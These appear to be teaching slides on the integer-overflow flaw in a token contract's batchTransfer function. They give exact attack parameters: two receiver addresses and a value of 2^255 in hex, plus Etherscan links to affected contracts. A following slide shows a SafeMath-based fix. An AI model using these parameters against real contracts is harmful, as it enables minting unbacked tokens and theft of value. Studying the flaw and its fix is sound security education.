 .center[![hack](hack.png)]

---

# Overflow Attack

* Call `batchTransfer` with the following params
	* receivers:
		* "0x8C59b65F1839207261A356d89965561493c43d22" 
		* "0xFeD39690722c039D1a20EfF07e1aE3aB1305Bc81"
	* value: 2^255
		* (0x80....0) 63 zeros.

???
["0x8C59b65F1839207261A356d89965561493c43d22","0xFeD39690722c039D1a20EfF07e1aE3aB1305Bc81"]
0x8C59b65F1839207261A356d89965561493c43d22,0xFeD39690722c039D1a20EfF07e1aE3aB1305Bc81
0x8000000000000000000000000000000000000000000000000000000000000000


https://etherscan.io/address/0xa0872ee815b8dd0f6937386fd77134720d953581#code
https://etherscan.io/address/0xc5d105e63711398af9bbff092d4b6769c82f793d#code

---

# Fix Overflow

* Use [SafeMath](https://github.com/OpenZeppelin/openzeppelin-solidity/blob/master/contracts/math/SafeMath.sol)
```javascript
function batchTransfer(address[] _receivers, uint256 _value) public returns (bool) {
        uint cnt = _receivers.length;
        uint256 amount = uint256(cnt).mul(_value);
        require(cnt > 0 && cnt <= 20);
        require(_value > 0 && balances[msg.sender] >= amount);
        balances[msg.sender] = balances[msg.sender].sub(amount);
        for (uint i = 0; i < cnt; i++) {
            balances[_receivers[i]] = balances[_receivers[i]].add(_value);
        }
        return true;
   }
```
---
